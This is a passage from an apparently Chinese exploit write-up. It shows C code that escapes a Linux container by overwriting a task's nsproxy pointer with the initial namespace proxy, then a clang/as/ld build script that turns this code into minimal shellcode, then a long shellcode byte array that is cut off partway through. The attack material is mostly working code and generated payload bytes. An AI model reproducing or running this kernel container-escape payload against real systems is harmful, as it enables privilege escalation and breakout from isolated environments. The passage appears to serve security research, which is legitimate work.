 ```c

    size_t nsproxy_offset = 0;
    char *init_ns_proxy = find_init_nsproxy(ptr_init_pid_ns, ptr_init_uts_ns, &nsproxy_offset);

    if (!init_ns_proxy) {
        return 0;
    }

    // escape namespace
    *(size_t *)(task + nsproxy_offset) = (size_t)init_ns_proxy;

    return 0;
}
```

为了得到尽可能短的shellcode，我用了clang的-Oz来编译，并再加上了不少优化来缩小shellcode体积：

```bash
#!/bin/bash -x

clang main.c -masm=intel -S -o main.s \
    -nostdlib -shared -Oz -fpic -fomit-frame-pointer \
    -fno-exceptions -fno-asynchronous-unwind-tables \
    -fno-unwind-tables -fcf-protection=none && \
sed -i "s/.addrsig//g" main.s && \
sed -i '/.section/d' main.s && \
sed -i '/.p2align/d' main.s && \
as --64 -o main.o main.s && \
ld --oformat binary -o main.bin main.o --omagic && \
xxd -i main.bin
```

最后得到如下的shellcode，还是有点长，一共有0x260多个字节。

```c
unsigned char shellcode[] = {
  0x48, 0x8d, 0x3d, 0x00, 0x10, 0x00, 0x00, 0xeb, 0x00, 0x55, 0x41, 0x57,
  0x41, 0x56, 0x41, 0x54, 0x53, 0x49, 0x89, 0xfc, 0x48, 0x8d, 0x35, 0xfd,
  0x01, 0x00, 0x00, 0x6a, 0x0d, 0x5a, 0xe8, 0x85, 0x01, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x0f, 0x84, 0x71, 0x01, 0x00, 0x00, 0x48, 0x89, 0xc3, 0x48,
  0x8d, 0x35, 0xef, 0x01, 0x00, 0x00, 0x6a, 0x14, 0x5a, 0x4c, 0x89, 0xe7,
  0xe8, 0x67, 0x01, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x0f, 0x84, 0x53, 0x01,
  0x00, 0x00, 0x48, 0x63, 0x2b, 0x48, 0x01, 0xdd, 0x48, 0x63, 0x08, 0x48,
  0x01, 0xc1, 0x31, 0xff, 0xff, 0xd1, 0x48, 0x89, 0xc7, 0xff, 0xd5, 0x48,
  0x8d, 0x35, 0xd3, 0x01, 0x00, 0x00, 0x6a, 0x0a, 0x5a, 0x4c, 0x89, 0xe7,
  0xe8, 0x37, 0x01, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x0f, 0x84, 0x23, 0x01,
  0x00, 0x00, 0x48, 0x89, 0xc3, 0x48, 0x8d, 0x35, 0xbf, 0x01, 0x00, 0x00,
  0x6a, 0x09, 0x5a, 0x4c, 0x89, 0xe7, 0xe8, 0x19, 0x01, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x0f, 0x84, 0x05, 0x01, 0x00, 0x00, 0x48, 0x63, 0x0b, 0x48,
  0x01, 0xd9, 0x48, 0x63, 0x18, 0x48, 0x01, 0xc3, 0x6a, 0x01, 0x5f, 0xff,
  0xd1, 0x48, 0x89, 0xc7, 0x31, 0xf6, 0xff, 0xd3, 0x49, 0x89, 0xc6, 0x48,
  0x8d, 0x35, 0x92, 0x01, 0x00, 0x00, 0x6a, 0x0c, 0x5a, 0x4c, 0x89, 0xe7,
  0xe8, 0xe3, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x0f, 0x84, 0xcf, 0x00,
  0x00, 0x00, 0x49, 0x89, 0xc7, 0x48, 0x63, 0x18, 0x48, 0x8d, 0x35, 0x7d,
  0x01, 0x00, 0x00, 0x6a, 0x0c, 0x5a, 0x4c, 0x89, 0xe7, 0xe8, 0xc2, 0x00,
  0x00, 0x00, 0x48, 0x85, 0xc0, 0x0f, 0x84, 0xae, 0x00, 0x00, 0x00, 0x49,
  0x01, 0xdf, 0x49, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xff,
  0x4c, 0x63, 0x10, 0x49, 0x01, 0xc2, 0x49, 0x8d, 0x8f, 0xa0, 0x00, 0x00,
  0x00, 0x4c, 0x89, 0xfa, 0x48, 0x39, 0xca, 0x0f, 0x83, 0x88, 0x00, 0x00,
  0x00, 0x48, 0x8b, 0x02, 0x4c, 0x39, 0xc0, 0x73, 0x06, 0x48, 0x83, 0xc2,
  0x08, 0xeb, 0xe9, 0x48, 0x8d, 0xb0, 0x00, 0x30, 0x00, 0x00, 0x48, 0x89,
  0xc7, 0x48, 0x39, 0xf7, 0x73, 0xeb, 0x48, 0x39, 0x07, 0x48, 0x8d, 0x7f,
  0x08, 0x75, 0xf2, 0x48, 0x85, 0xc0, 0x74, 0x5d, 0x6a, 0x01, 0x41, 0x5c,
  0x49, 0x89, 0xc3, 0x49, 0x39, 0xf3, 0x73, 0x51, 0x4d, 0x8b, 0x0b, 0x4d,
  0x39, 0xc1, 0x72, 0x34, 0x4c, 0x39, 0xc8, 0x74, 0x2f, 0x49, 0x8d, 0x49,
```